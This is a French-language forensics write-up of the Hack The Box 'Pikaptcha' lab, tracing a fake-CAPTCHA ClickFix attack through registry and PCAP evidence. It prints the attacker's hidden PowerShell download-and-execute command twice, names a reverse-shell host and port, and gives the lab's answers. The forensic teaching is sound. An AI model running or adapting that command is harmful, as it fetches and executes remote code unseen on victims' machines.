






# Pikaptcha : HTB Sherlock Writeup

> Fausse page CAPTCHA, payload injecté en presse-papiers, reverse shell sur un port fantaisiste. Reconstitution d'une chaîne ClickFix à partir d'un PCAP et d'une copie du filesystem Windows.

| Lab | Catégorie | Difficulté | Statut |
|---|---|---|---|
| [Pikaptcha](https://app.hackthebox.com/sherlocks/Pikaptcha) | DFIR | Easy | 6/6 ✅ |

**Tactiques MITRE couvertes** : Initial Access, Execution, Defense Evasion, Command and Control

---

## Contexte

Happy Grunwald reçoit un mail lui proposant une mise à jour de Microsoft Office. Il visite le lien, tombe sur une page de vérification CAPTCHA, la résout, et... rien. Pas de téléchargement, pas de page Office. Il contacte le sysadmin Alonzo, qui reconnaît le schéma d'une attaque de phishing et isole la machine immédiatement.

Le lab fournit un PCAP et une copie du filesystem Windows. Pas de dump mémoire, pas de logs Sysmon.

## Outils utilisés

- **Registry Explorer** (Eric Zimmerman) pour lire le `NTUSER.DAT` et récupérer les métadonnées de clés
- **Wireshark** pour l'analyse réseau et l'extraction d'objets HTTP

---

## Investigation pas à pas

### Q1 — Commande complète exécutée pour télécharger et lancer le stager

La question pointe explicitement vers le registre utilisateur. Premier réflexe : la clé `RunMRU`, qui garde trace de tout ce qui est tapé ou collé dans la boîte Exécuter (Win+R).

```
NTUSER.DAT → Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU
```

La valeur est là. Le `\1` en fin de chaîne n'est que le marqueur d'ordre MRU du registre, pas partie de la commande réelle.

**Réponse** : `powershell -NOP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://43.205.115.44/office2024install.ps1')"`



Les flags parlent d'eux-mêmes : `-W Hidden` masque la fenêtre, `-Exec Bypass` court-circuite la politique d'exécution, et `IEX` exécute le script directement en mémoire. Rien n'est écrit sur le disque. Pour l'utilisateur, la fenêtre noire qui s'ouvre et se referme en moins d'une seconde ne déclenche aucune alarme.

### Q2 — Heure UTC d'exécution du payload

Le PCAP montre la requête GET vers `office2024install.ps1` à `05:07:47`. Mauvaise piste : c'est le moment du téléchargement, pas celui où la commande a été lancée.

La réponse vient de Registry Explorer. Quand on sélectionne la clé `RunMRU`, l'outil affiche son **Last Write Time** dans les métadonnées de la clé, soit le moment exact où la valeur a été écrite dans le registre — autrement dit, quand l'utilisateur a appuyé sur Entrée dans la boîte Exécuter. Ce timestamp n'est pas visible dans regedit natif.

**Réponse** : `2024-09-23 05:07:45`

La chronologie tient : RunMRU écrit à `05:07:45`, PowerShell s'initialise, requête HTTP sortante à `05:07:47`. Deux secondes d'écart, c'est cohérent. Sans event logs, c'est souvent le seul artefact qui donne un timestamp d'exécution précis au moment de l'incident.

### Q3 — Hash SHA256 du script PowerShell

`office2024install.ps1` transite en clair sur le port 80. Wireshark permet de l'extraire proprement :

```
File → Export Objects → HTTP
```

On récupère le fichier, on calcule le hash.

**Réponse** : `579284442094E1A44BEA9CFB7D8D794C8977714F827C97BCB2822A97742914DE`



### Q4 — Port de connexion du reverse shell

Une fois la session HTTP fermée proprement (FIN/ACK sur le port 80), la machine compromise initie immédiatement une nouvelle connexion TCP sortante vers la même IP. C'est le reverse shell.

**Réponse** : `6969`



### Q5 — Durée en secondes de la session C2

SYN initial à `05:07:48,073971Z`, FIN/PSH/ACK à `05:14:31,386096Z`. La différence donne 403,31 secondes, arrondie à 403 par HTB.

**Réponse** : `403`





### Q6 — Nom de la fonction JavaScript malveillante

La page CAPTCHA transite elle aussi dans le PCAP. En suivant le flux HTTP de la première requête GET, on accède au source HTML/JS de la fausse page de vérification. Le code contient la fonction qui injecte le payload dans le presse-papiers via `navigator.clipboard.writeText`.

**Réponse** : `stageClipboard`



---

## Chaîne d'attaque reconstituée

```
Utilisateur reçoit un mail "Mise à jour Microsoft Office"
       │
       ▼
Visite du lien → fausse page CAPTCHA
  JavaScript : stageClipboard()
  navigator.clipboard.writeText(payload PowerShell)
  [T1204 - User Execution]
       │
       ▼
Win+R → Ctrl+V → Entrée
  RunMRU écrit à 2024-09-23 05:07:45
       │
       ▼
powershell -NOP -NonI -W Hidden -Exec Bypass
  IEX(DownloadString('http://43.205.115.44/office2024install.ps1'))
  [T1059.001 - PowerShell]
       │
       ▼
GET office2024install.ps1 à 05:07:47 (port 80)
  Exécution en mémoire, aucun fichier sur disque
  [T1620 - Reflective Code Loading]
       │
       ▼
Reverse shell → 43.205.115.44:6969 à 05:07:48
  Session active 403 secondes
  [T1571 - Non-Standard Port]
```

---

## Ce que j'ai retenu

Le **Last Write Time de la clé RunMRU** est l'artefact que j'aurais cherché en dernier sans ce challenge. L'information existe dans regedit, mais elle n'est pas exposée dans l'interface. Registry Explorer la montre nativement dans le panneau de métadonnées. Sur une machine sans Sysmon et sans Script Block Logging, cette métadonnée est souvent la seule trace horodatée qui prouve quand la commande a été exécutée.

La technique ClickFix mérite d'être bien comprise. Ce n'est pas un phishing au sens classique : la victime n'ouvre pas une pièce jointe piégée, elle exécute elle-même la commande. L'attaquant sort l'exécution du périmètre des filtres mail et des sandbox. Du point de vue des logs, si on n'a pas Script Block Logging ou Sysmon, ça ressemble à une exécution utilisateur ordinaire via Win+R, ce qui complique la détection après coup.

Sur la méthode d'investigation : la chronologie PCAP raconte une histoire complète quand on sait quoi chercher. La séquence `GET ps1 → FIN/ACK port 80 → SYN port 6969` est une signature lisible sans aucun outil externe. Le timestamp d'exécution ne venait pas du download HTTP mais du registre, deux secondes avant. Confondre les deux timestamps décalerait toute la chronologie de l'incident.

---

## Références

- [MITRE ATT&CK T1059.001](https://attack.mitre.org/techniques/T1059/001/) - PowerShell
- [MITRE ATT&CK T1204](https://attack.mitre.org/techniques/T1204/) - User Execution
- [MITRE ATT&CK T1571](https://attack.mitre.org/techniques/T1571/) - Non-Standard Port
- [MITRE ATT&CK T1620](https://attack.mitre.org/techniques/T1620/) - Reflective Code Loading
- [Registry Explorer](https://ericzimmerman.github.io/#!index.md) - Eric Zimmerman Tools
- [ClickFix technique analysis](https://attack.mitre.org/techniques/T1204/) - Malicious CAPTCHA / clipboard injection
